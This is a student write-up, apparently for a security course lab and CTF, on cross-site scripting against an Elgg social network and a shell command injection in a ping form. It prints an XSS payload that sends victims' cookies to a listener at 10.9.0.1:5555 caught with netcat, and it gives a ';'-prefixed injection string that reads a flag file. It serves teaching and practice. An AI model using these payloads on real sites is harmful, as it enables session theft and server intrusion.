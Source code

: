 # Tarefas para as semana 10 e 11

## Task 1: Posting a Malicious Message to Display an Alert Window

The goal in this task is to embed a JavaScript program in a profile, such that when another user views the profile, an alert window will be displayed when the program is executed. To achieve that, we clicked on the option to edit the profile and in the "About me" section, we added the code given in the description of the task: 

**<script>alert(’XSS’);</script>**

After that, from another user's profile, when we click in the Alice's profile, the one where we added the code above, we see a message in the form of a pop-up window shown below.

![image59.png](images/image59.png)

## Task 2: Posting a Malicious Message to Display Cookies

For this task, the goal is to embed a JavaScript program in a profile, such that when the user views its own profile, an alert window would appear with that user's cookies. To achieve that, we did a similar thing as the previous task, adding this code to the brief description:

**<script>alert(document.cookie);</script>**

After that, when we log into Alice's profile, on her profile page, a see a pop-up window with a message containing the cookies.

![image60.png](images/image60.png)

## Task 3: Stealing Cookies from the Victim’s Machine

For this task, the goal is to, instead of the the user being the only one to see the cookies, we want to send them to the attacker. For that, we changed the brief description with the follwing code:

**<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’   >’);
</script>**

We can then see the cookies by doing the command *nc -lknv 5555*.

## Task 4: Becoming the Victim’s Friend

For this task the goal is to write a program that writtes an XSS worm that adds Samy as a friend to any other user that visits Samy's profile. For that, we started by understanding what happens when a friend request is sent. 

After analysing our information and the code that was given to us, we only needed to build the url that would be used to achieve the goal of our task and add an user as a friend when they visited Samy's profile, we gathered that Samy's id was 59 so, to achieve our goal, we added the follwing code to the "About me" section , in *Edit HTML* mode:

![image61.png](images/image61.png)

We then answered some questions:

**Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?** The lines 1 and 2 get the values of the __elgg_ts and __elgg_token variables and this values are used against Cross Site Request Forgeru attacks. This values change every time a page is loaded and because of that, they need to be accessed every time. <br>

**Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?** No, because if the application only provided the Editor mode, the attack will not be successful because this expecific mode adds some extra HTML and some symbols change.

 # CTF Semana 10 e 11

 ## Desafio 1

 For this challenge the goal is to make a request to the adminstrator so that he gives us access to the flag. 
 To achieve that, we started by checking what happened when a request was made, and we saw that two buttons appear, when we give the string *flag*.

 ![image62.png](images/image62.png)

 After that, we typped some HTML code and the result is was the follwing present in the screenshot:

![image63.png](images/image63.png)

![image64.png](images/image64.png)

We then inspected our code to find out what was the button id and concluded it was *giveflag*. After inserting the follwing code, we got our flag.

![image65.png](images/image65.png)
![image66.png](images/image66.png)

## Desafio 2

After analysing the page, we saw that the functionalities that were available for non authenticated users were the login, ping a host and ask for a speed report.

For this challenge, the importante functionality is pinging a host, that we concluded to be implemented by executing a shell command and then display the output.

A vulnerability that could be present here is a shell code injection and to get use of it, we need to give an initial **;** to the input.

Using the command **; ls** we obtained the following result:

![image67.png](images/image67.png)
![image68.png](images/image68.png)

To reach our flag we did gave the following input and concluded the challenge.

**; cd ..; cd ..; cd ..; cd ..; ls; cd flags; ls; cat flag.txt**

![image69.png](images/image69.png)

